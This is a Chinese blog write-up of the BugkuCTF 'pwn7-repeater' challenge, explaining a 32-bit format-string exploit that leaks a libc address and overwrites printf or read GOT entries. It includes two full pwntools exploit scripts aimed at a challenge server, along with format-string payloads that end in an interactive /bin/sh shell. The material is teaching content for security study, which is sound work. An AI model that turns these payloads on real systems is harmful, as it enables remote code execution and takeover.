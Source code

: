 <!--yml
category: 未分类
date: 2022-04-26 14:47:21
-->

# BugkuCTF-PWN题pwn7-repeater详细讲解多解法_彬彬有礼am_03的博客-CSDN博客

> 来源：[https://blog.csdn.net/am_03/article/details/120014739](https://blog.csdn.net/am_03/article/details/120014739)

## 知识点

![在这里插入图片描述](img/6e049e89f179046621a0bc7011c3a23f.png)

## 解题流程

## 方法一

查看文件类型：
![在这里插入图片描述](img/f17e90814fb6a53d449ff38f81cc1d8b.png)
32位文件

查看保护机制
![在这里插入图片描述](img/3cbdba3b8a52d2b0ab4a20286b771c30.png)
只开启了NX

32位IDA打开
伪码：
![在这里插入图片描述](img/ec0a490c727fe72f915a419da9429d6b.png)
0x70=112
0x64=100
发现该题目为典型的格式字符串漏洞。

## 解题思路

此题的大概思路如下：
1、找到libc_start_main在栈内的偏移，使用%p暴露该地址
2、利用LibcSearcher猜测使用的libc，算出libc基址
3、计算出此libc的system地址
4、把prinf的got表改为system地址
5、执行system(’/bin/sh’)

## 具体调试

执行gdb pwn7调试程序
使用b printf在printf处下断点
输入r执行程序
程序提示用户输入
输入123456回车
此时程序运行到printf语句停止

pwndbg调试
![在这里插入图片描述](img/295f3e793467addd6d0a2b005606784b.png)
输入stack 60命令查看栈情况
可以看到，在0xffffcf18处为之前输入的123456
在0xffffcf8c处为libc_start_main+247
使用fmtarg 0xffffcf8c算出偏移，此处知道了为%35$p
使用fmtarg属于懒人做法，需安装在gdb里。
![在这里插入图片描述](img/4ad53167b36dff7a208352d446258eb2.png)

## 具体方法

exp:

```
 from pwn import *
import sys

from LibcSearcher import *
context.log_level="debug"
context.terminal = ['gnome-terminal','-x','sh','-c']

if sys.argv[1] == '0':
    p = process('./pwn7')

    libc = ELF("/lib/i386-linux-gnu/libc.so.6")

elif sys.argv[1] == '1':
    p = remote("114.67.246.176",19888)

elf=ELF('./pwn7')
printf_GOT=elf.got['printf']
log.success('printf_GOT'+hex(printf_GOT))

p.sendafter('repeater','%35$p')
p.recvuntil('0x',drop=True)
libc_start_main=int(p.recv(8),16)-247

libc=LibcSearcher("__libc_start_main", libc_start_main)
libc_base=libc_start_main-libc.dump('__libc_start_main')   
log.success('libc_base'+hex(libc_base))
printf=libc.dump('printf')+libc_base   
log.success('printf'+hex(printf))
system=libc.dump('system')+libc_base   
log.success('system'+hex(system))

ch0=system&0xffff
ch1=(((system>>16)&0xffff)-ch0)&0xffff
payload="%"+str(ch0)+"c%16$hn"
payload+="%"+str(ch1)+"c%17$hn"
payload=payload.ljust(40,'a')

payload+=p32(printf_GOT)
payload+=p32(printf_GOT+2)
p.send(payload)
p.recvline()

p.send('/bin/sh\x00')
p.interactive() 
```

## 方法二（需要加载libc版本）

由于方法二我不知道大佬加载的libc版本是哪一个，所以没有成功实现

gdb里调试到printf(buf)
![在这里插入图片描述](img/2f27ba9388fdaa141a72cf1d8c0a0c8b.png)
如图 ：
我通过read输入的是flag 容易看出偏移是 0x18/4 = 6
(64位里偏移是6 + offset_rsp/8 32位里偏移则为offset_esp/4 ）
或者直接经典payload测 ：
AAAA%p.%p.%p.%p.%p.%p.%p.%p.
然后数数
测出偏移后
第一步 : 先通过printf(buf) 泄露libc
payload = p32(read_got) + b"%6$s"

我这个是泄露的read的地址
泄露地址后通过 https://libc.blukat.me/下载相应版本的libc.so(当然也可以用LibcSearcher然后改写got表为system的，再输入bin/sh字符串，这里为one_gadget的打法)

第二步 ： 改写read的got表为one_gadget的地址

完整exp如下 ：

```
from pwn import*
from LibcSearcher import LibcSearcher
context.log_level = "debug"
elf = ELF("./pwn")
libc = ELF("./libc.so")
io = remote("114.67.246.176","19888")
read_got = elf.got["read"]
pd = b"%6$s" + p32(read_got)
io.recvuntil("Do you know repeater?\n")
io.send(pd)
read_addr = u32(io.recv(8)[-4:])   
print(hex(read_addr))
libc_base = read_addr - libc.sym["read"]   
og = [0x3a822,0x3a829,0x5f075,0x5f076]
one_gadget = libc_base + og[3]
payload = fmtstr_payload(6,{read_got : one_gadget},write_size = "byte",)
io.send(payload)
io.interactive() 
```

运行脚本
得到flag{ec228e717282513a}

io.recv(8)[-4:]：取后四位字节
![在这里插入图片描述](img/845bc388d696fcbb7ec8d60338caa9b6.png)

可能有小伙伴对于最后的fmtstr_payload有点疑惑：
fmtstr_payload 是pwntools里面的一个小工具 ，简化格式化字符串payload的构造
fmtstr_payload(offset, writes, numbwritten=0, write_size=‘byte’)
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload
fmstr_payload 的官方文档 ： [https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)